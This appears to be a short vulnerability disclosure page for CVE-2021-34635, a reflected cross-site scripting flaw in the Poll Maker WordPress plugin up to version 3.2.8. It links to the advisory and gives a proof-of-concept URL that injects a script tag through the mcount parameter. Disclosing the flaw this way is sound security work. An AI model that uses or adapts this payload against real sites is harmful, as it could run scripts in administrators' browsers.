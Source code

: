 <h2>CVE-2021-34635</h2>

The Poll Maker WordPress plugin is vulnerable to Reflected Cross-Site Scripting via the mcount parameter found in the ~/admin/partials/settings/poll-maker-settings.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 3.2.8.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/poll-maker/tags/3.2.8/admin/partials/settings/poll-maker-settings.php#L249
https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34635`

POC:<br>
`http://ip:port/wp-admin/admin.php?page=poll-maker-ays-settings&del_stat=1&mcount=<script>alert(/test/)</script>`

